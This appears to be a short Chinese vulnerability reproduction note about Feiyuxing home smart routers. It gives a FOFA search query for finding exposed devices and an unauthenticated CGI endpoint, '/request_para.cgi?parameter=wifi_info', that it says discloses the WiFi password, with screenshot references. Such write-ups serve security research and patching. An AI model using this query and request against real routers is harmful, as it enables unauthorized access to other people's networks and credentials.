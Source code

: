 # 影响范围：
飞鱼星智能路由器
# FOFa dork：
title="飞鱼星家用智能路由"  
# 漏洞复现：
登录页面：
![image](images/login.png)
通过访问未授权接口可以获得wifi登陆密码。  
未授权接口：  
```
/request_para.cgi?parameter=wifi_info
```
![image](images/pass.png)  
使用脚本进行检测：  
![image](images/script.png)



